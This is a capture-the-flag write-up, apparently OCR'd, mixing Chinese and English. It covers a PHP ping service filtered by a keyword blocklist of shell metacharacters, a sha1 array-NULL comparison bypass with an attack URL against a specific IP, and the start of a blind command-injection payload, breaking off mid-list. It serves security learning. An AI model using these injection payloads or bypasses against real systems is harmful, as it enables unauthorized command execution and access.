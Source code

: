 ``` & | ; cat flag ` ```
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['ip'])) {
 $waf = array("&", "|", ";", "`", ">", "\t", "\r", "\n", "cat", "flag");
 foreach($waf as $banner){
        if(stripos($_POST['ip'], $banner) !== FALSE) die("Get Out of Here");
 }

 $result = shell_exec("ping -c 3 " . $_POST['ip']);
 echo "<pre>" . $result . "</pre>";
}
?>
```

# Level 3

## MyPHP

> Point : php中array的特性～sha1[] = NULL

[PHP Comparisons Table](https://www.php.net/manual/en/types.comparisons.php)


```php=
<?php
highlight_file(__FILE__);

include("user.php");
// $users = Array('admin'=>'xxxx', ...)

$user = $_GET['user'];
$pass = $_GET['pass'];

if(isset($user) && isset($pass)) {
    if($users[$user] === sha1($pass))
        echo $flag;
    else
        echo "Q______________Q";
}
```
if的比較是 "===" 不能運用弱型別，要讓它都是NULL。
輸入 ```http://140.110.112.32:4010/?user=-1&pass[]=```


## youtube_viewer

> 解法一 : nc

首先看到題目
一個youtube 載入器?
輸入youtube 影片上最後段的url 題目就會幫忙把影片讀取出來

猜測code：
```curl -i 'xxx/[input]/xxx'``` or
```curl -i "xxx/[input]/xxx"``` 

可控的在中間那邊 
應該是Blind Command Injection
開始建構payload 

1. 先閉合前面
==> ```'```
2. 把後面也處理好
==> ```''```
3. 連接前後
```' + &payload && $payload = '```
4. 加上要執行的cmd
```